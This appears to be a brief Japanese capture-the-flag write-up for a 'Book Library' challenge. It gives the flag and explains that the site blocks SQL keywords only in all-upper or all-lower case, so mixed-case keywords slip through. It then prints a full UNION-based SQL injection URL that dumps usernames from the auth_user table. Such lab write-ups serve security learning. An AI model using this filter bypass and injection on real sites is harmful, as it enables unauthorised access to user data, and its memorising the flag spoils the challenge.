 ## Book Library
管理者アカウントのusernameがFlagです

## 配布物
なし

## Flag
pgctf{cocoro_ga_pyonpyon}

## Writeup
`SELECT`や`select`、`UNION`や`union`といったいくつかの予約語が含まれていると403になるが、大文字小文字を両方含めた`Select`や`unioN`は通るので普通にSQL Injectionする
`http://localhost:8000/?title=' Union Select 1,username,3,4,current_date,6,7,current_timestamp,current_timestamp From auth_user -- `
